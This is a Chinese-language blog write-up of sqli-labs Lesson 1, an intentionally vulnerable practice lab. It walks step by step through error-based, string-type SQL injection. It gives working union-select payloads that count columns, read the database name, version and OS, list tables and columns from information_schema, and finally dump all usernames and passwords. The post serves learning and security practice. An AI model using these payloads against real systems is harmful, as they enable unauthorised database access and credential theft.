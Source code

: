 ```yaml
---
layout: post
title: sqli-labs Lesson-1 字符型注入
subtitle: 
date: 2020-01-03
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
    - ctf
---
```




## preface



这篇文章是我正式学习 sql 注入的第一篇文章，下载了 sqli-labs 靶机作为渗透环境，里面的题目很多，有几十题的 sql 注入，跟着网上的 wp 一起做了一题，然后还是学到挺多东西的，这里拿第一关来记录一下



## sql 注入概念



通俗点说，就是要获取数据库里面所有的信息，包括这张表的字段个数，字段名分别是什么，在哪个数据库中，以及所有的记录，一般来说，黑客就会想知道有关管理员表的一些信息，作为学习，我就先将 sql 注入的一般的步骤写下来



1. 判断是否可注入以及注入点的类型（字符型，数字型，布尔型）
2. 猜解表中的字段数（一般利用 order by column_id）
3. 确定显示的字段顺序（一般用 union 联合查询）
4. 获取当前的数据库（通过 MySQL 内建的 database() 函数）
5. 获取表中的字段名
6. 下载数据



## 开始做题



### 判断注入点



下面就按照上面这几个步骤来对第一关进行 sql 注入吧，害，不过题目都说了是基于报错的字符型单引号注入了，有了先入为主的思想，就直接输入一个 `'` 进去了，然后看到报错信息，真的是用单引号包着的，所以猜测 sql 查询语句为

```sql
select xx from table where id='$id' limit 0, 1;
```

![error](https://i.loli.net/2020/01/04/5pvtiwQ4lFEebL8.png)



然后进一步查看是否存在 sql 注入，由于已知是字符型的注入了，所以我们分别输入 `'or'1'='1` 和 `'or'1'='2` 来看看返回的是不是相同的界面，如果不同的话就说明有 sql 注入漏洞

![1578127454967.png](https://i.loli.net/2020/01/04/nrVNCgmHS9qpAhv.png)

![1578127478997.png](https://i.loli.net/2020/01/04/tlqJf8zY6VcjPuC.png)



### 爆字段个数



可以看到返回的不同的数据，所以存在 sql 注入，下面我们就开始注入过程。首先确定一下这张表有几个字段，用 `order by column_id` 一个一个试，然后把后面的 sql 语句给注释掉来截断

![1578127659994.png](https://i.loli.net/2020/01/04/DT54rxqRdLPINoU.png)

试到 4 的时候报错了，所以确定了这张表只有 3 个字段

![1578127762664.png](https://i.loli.net/2020/01/04/EMKJSneVmkgs9RW.png)



### 爆显示顺序



紧接着，第二步，确定显示出来的是哪几个字段，这里用 union 查询，并且将前面一个查询的结果给屏蔽，因为这个 sql 语句只能返回一条记录，如果前面输出了的话那么后面查询得到的数据就不会被显示出来，所以这里我们可以用下面这句来构造 payload

```sql
1' and 1=2 union select 1, 2 --+ 
```

但是报错了，说 union 查询的前后两条记录的字段数不相等，那么猜想真实的 sql 语句一定是 `select *` ，返回的是 3 个字段的记录

![1578129308538.png](https://i.loli.net/2020/01/04/G9Ry6KH7uQaojew.png)



那我们就再构造一个 payload

```sql
1' and 1=2 union select 1, 2, 3 --+ 
```

![select-1-2-3](https://i.loli.net/2020/01/04/XFDzSr3ZfPdlC2J.png)



### 爆数据库



这次显示的是 2， 3，所以 login_name 这个字段的顺序是 2，password 是 3，那么 id 肯定是 1 了，已经知道这些了，接下去就看下这个数据库叫什么名字，要先得到数据库的消息就可以用 mysql 内建的数据库查出表的名字，用下面这条 payload 获取数据库的名字

```sql
1' and 1=2 union select 1, database(), 3 --+ 
```



![1578129576658.png](https://i.loli.net/2020/01/04/qgJoxCHXfUnZjmM.png)



### 爆表名



ok，这张表所在的数据库的名字是 security，知道数据库的名字之后我们还得知道数据库是什么系统的，以及版本号，顺带也可以获取系统是 win 还是 linux ，虽然这里肯定是 MySQL 数据库，但是实战中不一定总是 MySQL ，所以要先查询一下，下面这些函数在我之前写的 [sql 基本语句](https://szukevin.site/2019/11/13/%E4%B8%80%E4%BA%9B%E5%B8%B8%E7%94%A8%E7%9A%84SQL%E8%AF%AD%E5%8F%A5/)中都找得到



可以像这样一个一个查询，查完之后换一个函数继续查，但是效率不高

```
1' and 1=2 union select 1, @@datadir, version() --+ 
1' and 1=2 union select 1, @@version_compile_os, user() --+ 
```



用 `concat_ws(separator,str1,str2,...)` 函数更加方便，这个函数的功能是将多个字符串拼接在一起，因此我们可以用这个函数一次性查询好多东西

```sql
1' and 1=2 union select 1, 2, concat_ws(',', @@datadir, version(), @@version_compile_os, user()) --+ 
```



![1578139631092.png](https://i.loli.net/2020/01/04/7w3hYL9UdajGiHS.png)



得知数据库是在 debian 系统上的 MariaDB（其实跟 MySQL 是一样的东西），接下来我们用 MySQL 中的 information_schema 数据库爆出表名

```sql
1' and 1=2 union select 1, 2, table_name from information_schema.tables where table_schema='security' --+ 
```



![1578130520986.png](https://i.loli.net/2020/01/04/jhYCoxwXWJQTI9r.png)



可以看到，只显示出了一个表名，这是因为它只取了第一行的记录，其实是有多行的，我们要用 `group_concat` 这个函数将多行记录放在一行显示

```sql
1' and 1=2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+ 
```

![1578130656386.png](https://i.loli.net/2020/01/04/6Bl2AuzxXMOmSo1.png)



### 爆字段名



然后看到了这个数据库里面有 4 张表，猜想这张表是 users ，然后爆出字段名，同样也是用到 information_schema 这个数据库，所以说这个数据库很重要

```sql
1' and 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' --+ 
```



![1578139721794.png](https://i.loli.net/2020/01/04/4whBe617vqQKRnO.png)



但是这里出现了好多字段，之前不是确认过了这张表只有三个字段的吗，原因就是我的环境中还有其他的数据库中的表也叫做 users ，为了避免这种情况，就要再筛选一下了



```sql
1' and 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security' --+ 
```

![1578138434738.png](https://i.loli.net/2020/01/04/5ICxjqW9cNifXg2.png)



### 爆所有数据



这下字段名就出来了，一个是 id ，一个是 username ，一个是 password ，接下去就可以根据字段名将数据库所有的用户信息都给爆出来了



```sql
1' and 1=2 union select 1, group_concat(username), group_concat(password) from users --+ 
```



![all-data](https://i.loli.net/2020/01/04/xfj81R69tDvqKVQ.png)



到这里就完成了一次注入，还挺有趣的，总之注入的时候就要想想后台的 sql 可能是怎么写的，然后去猜测信息，接着用一些手段来获取自己想得到的信息



## reference



https://blog.csdn.net/qq_43531669/article/details/90812561

